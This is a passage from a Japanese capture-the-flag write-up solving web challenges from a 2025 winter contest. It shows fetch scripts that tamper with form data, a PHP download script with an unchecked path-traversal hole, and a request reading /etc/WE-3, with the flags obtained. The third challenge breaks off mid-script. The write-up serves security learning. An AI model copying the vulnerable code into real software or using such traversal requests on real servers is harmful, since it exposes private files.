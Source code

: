 ```javascript
        body: "qCount=10000&answer=10000&submit=submit"
    });
    console.log(await res.text());
})();
```
これを送るとフラグがもらえました。
```
flag{WinThroughTheGame}
```

### 直してる最中なんです

どうにかしてWebサーバ内の/etc/WE-3というファイルにアクセスする問題です。
サイトにアクセスすると複数の画像が表示されたページが出てきます。
ソースを見てみると、/secret/download.phpにリクエストを送り、ローカルに保存されている画像ファイルを取得していました。
```php
<?php
$file_name = $_POST["fName"];

$file_path = dirname(__FILE__).'/'.$file_name;

$download_file_name = $file_name;

header('Content-Type: application/force-download;');
header('Content-Length: '.filesize($file_path));
header('Content-Disposition: attachment; filename="'.$file_name.'"');
readfile($download_file_name);
?>
```
ユーザ入力に何もチェックが入っていないので、パストラバーサルの脆弱性があります。
以下のパスを/etc/WE-3にすることでフラグが格納されたファイルを読み込むことができました。
```javascript
(async () => {
    const baseUrl = "https://we3-prod.2025winter-cybercontest.net/";
    const res = await fetch(baseUrl + "secret/download.php", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: "fName=/etc/WE-3"
    });
    console.log(await res.text());
})();
```
```
flag{fGrantUB56skBTlmF14mostFP}
```

### 直接聞いてみたら？

Webサイトに行くと名前、メールアドレス、電話番号、住所を表示するページに行きます。
HTTPリクエストの内容を見てみます。
```
{"name": "name", "value": "on"},
{"name": "email", "value": "on"},
{"name": "tel", "value": "on"},
{"name": "address", "value": "on"}
```
というJSONのデータがPOSTされていました。
name、email、tel、addressが上記の4つの情報を対応しているようです。
ということでこのエンドポイントにフラグを直接聞いてみます。
```javascript
(async () => {
    let res;
    const baseUrl = "https://we4-prod.2025winter-cybercontest.net/";
    const payload = [
```
